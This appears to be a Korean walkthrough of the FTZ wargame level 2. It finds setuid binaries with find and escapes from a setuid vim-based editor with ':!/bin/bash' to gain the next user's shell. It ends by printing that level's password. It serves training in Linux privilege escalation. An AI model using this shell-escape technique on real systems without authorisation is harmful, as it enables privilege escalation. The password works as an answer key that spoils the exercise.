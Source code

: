 ## level2

#### 실행

``` //
[level2@ftz level2]$cat hint // hint 파일의 내용을 화면에 출력한다.
```

#### 결과

```
텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

--------

#### 실행

```
[level2@ftz level2]$find / -user level3 -perm -4000 2>/dev/null // 루트 디렉토리부터 level3 소유의 최소 setUID가 설정되어 있는 파일을 찾고 표준 에러를 휴지통으로 리다이렉트한다.
```

#### 결과

```/bin/ExceteMe
/usr/bin/editor
```

---------

#### 실행

```
[level2@ftz level2]$ cd /usr/bin
[level2@ftz bin]$ ./editor //editor 실행
```

#### 결과

```
vim 실행 화면 출력
```

-------------------

#### 실행

```
(Shift key)+:!/bin/bash // 쉘 실행
```

vim에서 쉘로 빠져나가지 않고도 !를 이용해 외부명령어를 실행시킬 수 있다.

#### 결과

```
[level3@ftz bin]$
```

--------

#### 실행

```
[level3@ftz bin]$ my-pass
```

#### 결과

```
Level3 Password is "can you fly?"
```

